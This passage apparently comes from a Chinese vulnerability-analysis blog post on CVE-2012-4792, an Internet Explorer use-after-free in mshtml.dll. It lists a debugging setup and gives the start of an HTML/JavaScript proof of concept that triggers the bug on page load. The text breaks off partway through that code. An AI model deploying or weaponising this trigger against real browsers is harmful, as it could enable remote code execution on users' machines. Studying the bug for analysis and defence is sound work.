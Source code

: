 ```yaml
---
title: 漏洞分析之CVE-2012-4792(UAF)
tags: [漏洞调试]
date: 2017-06-29 01:04
---
```

0x00 漏洞简介  2012年9月，通用漏洞与披露平台发布了一个存在IE浏览器的UAF漏洞。   报告指出：Microsoft Internet Explorer 6至9版本中的mshtml.dll中的CMshtmlEd::Exec函数中存在释放后使用漏洞。远程攻击者可利用该漏洞通过特制的网站，执行任意代码。 0x01 测试环境操作系统：Windows XP sp3浏览器：IE 8.00.6

<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><h1 id="0x00-漏洞简介">0x00 漏洞简介</h1>
<blockquote>
<p>2012年9月，通用漏洞与披露平台发布了一个存在IE浏览器的UAF漏洞。 <br>
  报告指出：Microsoft Internet Explorer 6至9版本中的mshtml.dll中的CMshtmlEd::Exec函数中存在释放后使用漏洞。远程攻击者可利用该漏洞通过特制的网站，执行任意代码。 </br></p>
</blockquote>
<h1 id="0x01-测试环境">0x01 测试环境</h1>
<p>操作系统：Windows XP sp3</p>
<p>浏览器：IE 8.00.6001.18702</p>
<p>漏洞文件：mshtml 8.00.6001.18702</p>
<p>调试器：windbg  x86</p>
<p>利用windbg辅助工具设置系统堆栈调试功能</p>
<pre class="prettyprint"><code class=" hljs avrasm"><span class="hljs-label">C:</span>\Documents <span class="hljs-keyword">and</span> Settings\Administrator&gt;gflags<span class="hljs-preprocessor">.exe</span> -I iexplore<span class="hljs-preprocessor">.exe</span> +hpa +ust
Current Registry Settings for iexplore<span class="hljs-preprocessor">.exe</span> executable are: <span class="hljs-number">02001000</span>
    ust - Create user mode stack trace database
    hpa - Enable page heap</code></pre>
<h1 id="0x02-漏洞验证">0x02 漏洞验证</h1>
<p>首先给出一段简单的poc验证CVE漏洞</p>
<pre class="prettyprint"><code class=" hljs xml"><span class="hljs-doctype">&lt;!doctype html&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">html</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">script</span>&gt;</span><span class="javascript"> 
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">exploit</span><span class="hljs-params">()</span>
{</span>
     <span class="hljs-keyword">var</span> e0 = <span class="hljs-literal">null</span>;
     <span class="hljs-keyword">var</span> e1 = <span class="hljs-literal">null</span>;
     <span class="hljs-keyword">var</span> e2 = <span class="hljs-literal">null</span>; 
     <span class="hljs-keyword">try</span> {
          e0 = document.getElementById(<span class="hljs-string">"a"</span>);
          e1 = document.createElement(<span class="hljs-string">"div"</span>);
          e2 = document.createElement(<span class="hljs-string">"q"</span>);
          e1.applyElement(e2);
          e1.appendChild(document.createElement(<span class="hljs-string">'button'</span>));
          e1.applyElement(e0);
          e2.innerHTML = <span class="hljs-string">""</span>;
          e2.appendChild(document.createElement(<span class="hljs-string">'body'</span>));
     } <span class="hljs-keyword">catch</span>(e) { }
     CollectGarbage(); 
} 
</span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span> 
<span class="hljs-tag">&lt;/<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">body</span> <span class="hljs-attribute">onload</span>=<span class="hljs-value">"exploit()"</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">form</span> <span class="hljs-attribute">id</span>=<span class="hljs-value">"a"</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">form</span>&gt;</span>